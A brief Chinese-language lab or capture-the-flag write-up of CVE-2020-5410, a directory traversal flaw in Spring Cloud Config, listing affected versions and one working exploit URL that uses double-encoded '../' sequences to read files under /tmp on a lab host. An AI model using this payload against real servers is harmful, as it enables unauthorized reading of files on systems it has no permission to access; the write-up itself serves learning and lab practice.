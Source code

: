 # [Spring Cloud Config 目录穿越漏洞（CVE-2020-5410）by ](./CVE-2020-5410.md)[xiajibaxie](https://github.com/xiajibaxie)

## 一，漏洞描述

Spring Cloud Config 为分布式系统中的外部配置提供服务器和客户端支持，使用 Config Server ，用户可以在所有环境中管理应用程序的外部属性。近日，百度云安全团队监测到 Spring Cloud Config 官方发布了一个目录遍历漏洞的风险通告，漏洞编号为 CVE-2020-5410 。攻击者可通过构造特殊的 HTTP 请求，从而跨目录读取文件。

## 二，影响版本

2.2.x<=2.2.2
2.1.x<=2.1.8

## 三，利用流程

访问地址： `10.10.11.20:32446`

名称：CVE-2020-5410 Spring Cloud Config 目录穿越漏洞



1执行命令查看 tmp 文件获得 flag 

```
http://10.10.11.20:32446/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Ftmp%23foo/development
```

![1](./1.jpg)

通关！

## 参考

https://xz.aliyun.com/t/7877
